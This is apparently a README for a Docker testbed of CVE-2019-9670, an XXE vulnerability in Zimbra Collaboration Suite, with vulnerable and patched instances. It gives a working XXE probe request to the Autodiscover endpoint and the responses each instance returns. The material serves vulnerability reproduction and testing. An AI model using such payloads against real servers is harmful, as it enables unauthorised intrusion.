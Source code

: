 # Synacor Zimbra XXE (CVE-2019-9670)

This file describes how to setup a zimbra environment that is vulnerable (and not vulnerable) to CVE-2019-9670.

The vulnerability is an XXE affecting Synacor Zimbra Collaboration Suite.

## Testbed Setup
To setup the testbed, simply execute

```
./bootstrap.sh
```

The script will take care of building the docker images, deploying the docker containers and installing the zimbra applications.

- The vulnerable testbed is based on `8.7.1` version of zimbra, and
  specifically the following releases was used
  
  ```
  zcs-8.7.1_GA_1670.UBUNTU14_64.20161025045105.tgz
  ```
  
  The vulnerable testbed listens on port `8443`.
  
- The non vulnerable testbed is based on `8.8.15` version of zimbra, and
  specifically the following releases was used
  
  ```
  zcs-8.8.15_GA_3869.UBUNTU14_64.20190918004220.tgz
  ```
  
  The non vulnerable testbed listens on port `8500`.

To test out the vulnerability, the following HTTP GET request can be used.

Request

```
POST /Autodiscover/Autodiscover.xml HTTP/1.1
Host: 127.0.0.1
Content-Type: application/xml
Content-Length: 177

<!DOCTYPE foo [<!ELEMENT foo ANY>
<!ENTITY xxe "Test"> ]>
<Request>
<EMailAddress>email</EMailAddress>
<AcceptableResponseSchema>&xxe;</AcceptableResponseSchema>
</Request>
```

When sent to the vulnerable port (`8443`), the response will contain the string `Test`.

Vulnerable Response

```
HTTP/1.1 503 Requested response schema not available Test
Date: Thu, 19 Dec 2024 09:14:18 GMT
Content-Type: text/html;charset=iso-8859-1
Cache-Control: must-revalidate,no-cache,no-store
Content-Length: 339

<html>
<head>
<meta http-equiv="Content-Type" content="text/html;charset=utf-8"/>
<title>Error 503 Requested response schema not available Test</title>
</head>
<body><h2>HTTP ERROR 503</h2>
<p>Problem accessing /service/autodiscover/Autodiscover.xml. Reason:
<pre>    Requested response schema not available Test</pre></p>
</body>
</html>
```

When sent to the non vulnerable port (`8500`), the response will not containg the string `Test`.

Non Vulnerable Response

```
HTTP/1.1 400 Body cannot be parsed
Date: Thu, 19 Dec 2024 09:07:02 GMT
Cache-Control: must-revalidate,no-cache,no-store
Content-Type: text/html;charset=iso-8859-1
Content-Length: 293

<html>
<head>
<meta http-equiv="Content-Type" content="text/html;charset=utf-8"/>
<title>Error 400 Body cannot be parsed</title>
</head>
<body><h2>HTTP ERROR 400</h2>
<p>Problem accessing /service/autodiscover/Autodiscover.xml. Reason:
<pre>    Body cannot be parsed</pre></p>
</body>
</html>
```

## References
* https://nvd.nist.gov/vuln/detail/cve-2019-9670
* https://blog.tint0.com/2019/03/a-saga-of-code-executions-on-zimbra.html
* https://blog.zimbra.com/2019/03/new-zimbra-8-7-11-patch-10/
* https://attackerkb.com/topics/7bMNsBStux/zimbra-collaboration-suite-autodiscover-xxe/vuln-details
